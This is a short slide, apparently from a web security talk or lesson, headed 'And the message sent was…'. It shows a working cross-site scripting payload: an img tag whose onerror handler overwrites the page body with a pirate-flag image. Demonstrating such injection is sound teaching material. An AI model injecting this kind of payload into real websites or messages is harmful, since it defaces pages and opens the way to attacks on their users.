

# And the message sent was…
<img src='x'
    onerror="document.getElementsByTagName('body')[0].innerHTML = &quot;<img src='https://upload.wikimedia.org/wikipedia/commons/thumb/6/6c/Pirate_Flag.svg/750px-Pirate_Flag.svg.png'/>&quot;;" />